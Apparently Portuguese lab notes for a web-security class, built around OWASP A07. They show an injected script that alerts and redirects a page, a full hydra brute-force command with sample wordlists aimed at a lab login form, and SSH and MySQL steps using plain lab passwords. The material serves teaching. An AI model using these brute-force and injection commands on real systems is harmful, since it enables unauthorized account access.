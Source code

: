    ``` 
    <script>alert("Autentique-se para realizar a pesquisa");window.location.href="https://suap.ifsp.edu.br/"</script>
    
    <br><br>
    <div class="row">
      <div class="column cl-100 column-content">
        <table id="tabela">
          <tr>
            <th>Nome</th>
            <th>Nível</th>
            <th>Duração</th>
            <th>Período</th>
          </tr>
          <tr>
            <td>Tecnologia em Assuntos Aleatórios</td>
            <td>Graduação</td>
            <td>2 anos</td>
            <td>Noturno</td>
          </tr>
          <tr>
            <td>Especialização em Assuntos Aleatórios</td>
            <td>Pós-graduação</td>
            <td>1 ano</td>
            <td>Noturno</td>
          </tr>
        </table>
      </div>
    </div>

#################################################################################################################################################################
# OWASP Top Ten (https://owasp.org/www-project-top-ten/): A07:2021 – Identification and Authentication Failures (https://owasp.org/Top10/A07_2021-Identification_and_Authentication_Failures/)
#################################################################################################################################################################

  Aplicação com senhas fracas (ex.: p@ssw0rd), sem proteção contra ataque de força bruta, empregando hash MD5 sem salt para senhas, etc.
    Força bruta:
      hydra -L /usr/share/wordlists/usuario-app.txt -P /usr/share/wordlists/senha-app.txt 192.168.10.2 http-post-form "/app/restrito/login.php:usuario=^USER^&senha=^PASS^&btnlogin=:Usuário e/ou senha inválidos"
    
    Obs.: Conteúdo dos arquivos usuarios e senhas de exemplo:
      usuarios:
        admin
        aluno
        professor
        
      senhas:
        123456
        qwerty
        p@ssw0rd
		

###conexão via ssh no Centos apartir do Kali
abrir terminal kali e executar "ssh aluno@192.168.10.2"
digitar senha "centos"
digitar "sudo su" para entrar como root
para verificar se esta conseguindo consultar o banco rodar:
  mysql -uroot -pp@ssw0rd exemplo -e 'select * from usuarios'


   ```